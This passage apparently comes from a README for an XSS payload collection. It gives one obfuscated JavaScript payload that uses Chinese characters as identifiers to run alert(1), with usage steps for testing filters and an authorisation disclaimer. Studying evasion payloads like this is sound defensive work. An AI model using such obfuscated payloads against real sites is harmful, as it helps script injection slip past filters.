 ```
甲='',乙=!甲+甲,丙=!乙+甲,丁=甲+{},戊=乙[甲++],己=乙[庚=甲],辛=++庚+甲,壬=丁[庚+辛],乙[壬+=丁[甲]+(乙[丙]+丁)[甲]+丙[辛]+戊+己+乙[庚]+壬+戊+丁[甲]+己][壬](丙[甲]+丙[庚]+乙[辛]+己+戊+"(1)")()
```

- **Description**: This payload uses Chinese ideographs to execute alert(1). The complexity and visual density of Chinese characters make this payload highly obscure for XSS purposes.

## Purpose

These payloads demonstrate how dead and unconventional scripts can be used to encode XSS payloads, highlighting the need for robust input sanitization and output encoding in web applications. They are particularly useful for:

- Testing XSS detection and filtering mechanisms.
- Understanding the challenges of handling non-standard Unicode characters in web security.
- Educating developers and security researchers about creative obfuscation techniques.

## Usage

To test these payloads:

1. **Set up a safe environment**: Use a local web server, a virtual machine, or a dedicated testing platform to avoid unintended consequences.
2. **Inject the payload**: Place the payload in a vulnerable input field, URL parameter, or other injection point in a test application.
3. **Verify execution**: Check if the payload triggers `alert(1)` in the browser, indicating successful execution.
4. **Improve defenses**: Use these examples to enhance your application's XSS mitigation strategies, such as implementing strict Content Security Policies (CSP) or advanced Unicode-aware filtering.

**Warning**: Never test these payloads on systems you do not own or have explicit permission to test. Unauthorized testing is illegal and unethical.

## Disclaimer

These payloads are provided for **educational and research purposes only**. Misuse can lead to legal consequences. Always adhere to ethical guidelines and obtain proper authorization before conducting security testing.
